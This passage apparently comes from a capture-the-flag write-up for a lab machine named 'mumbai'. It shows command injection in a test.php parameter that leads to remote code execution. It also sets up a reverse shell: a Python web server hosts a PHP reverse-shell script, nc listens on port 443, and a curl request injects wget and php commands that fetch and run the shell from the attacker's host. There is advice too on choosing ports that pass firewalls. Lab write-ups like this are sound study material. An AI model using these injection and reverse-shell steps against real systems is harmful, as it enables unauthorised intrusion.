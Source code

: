 PHP isn't my strongest language, but you get the idea. It's pseudocode....doesn't mean it has to be correct :P

So what do we need to do? We can keep fuzzing for escape sequences, or we can move onto something else. I feel like we're onto something here, so let's try escaping with a semi-colon next.

![screenshot](/assets/img/mumbai/mumbai_testphprce.PNG)

Excellent! We have RCE. So now all we need to do is get a shell. Typically I try to stick to port 80, 443, or 8080 for reverse shells as these ports are commonly allowed outbound through firewalls. That isn't an end-all-be-all solution, but for the majority of challenges that seems to work in the event a firewall or some other ACL is in place. However, keep in mind we will be unable to pass a command to test.php that has the "&" character in the query, so we will have to drop an artifact of some sort. 

In instances like this one, normally I would like to just live off the land and use binaries already present on a system to achieve a reverse shell; however, the replacement of the "&" character makes it very cumbersome to do that as we would need it to redirect stdin & stdout over the same file descriptors for stability. In this case, I will wget the pentestmonkey php-reverse-shell script with changes to the IP and PORT variables, and simply run "php shell.php" for the shell.  

In one terminal, host shell.php after modifications:
```bash
cp /usr/share/webshells/php/php-reverse-shell.php
python -m SimpleHTTPServer 80
```

In another terminal, listen on port 443:
```bash
nc -lvnp 443
```

Finally, in a 3rd terminal, trigger the RCE: 
```bash
curl -d "query=http://10.10.10.13/wordpress; wget http://10.10.10.12/shell.php; php shell.php" http://10.10.10.13:8000/test.php
```

![screenshot](/assets/img/mumbai/mumbai_apiuser.PNG)
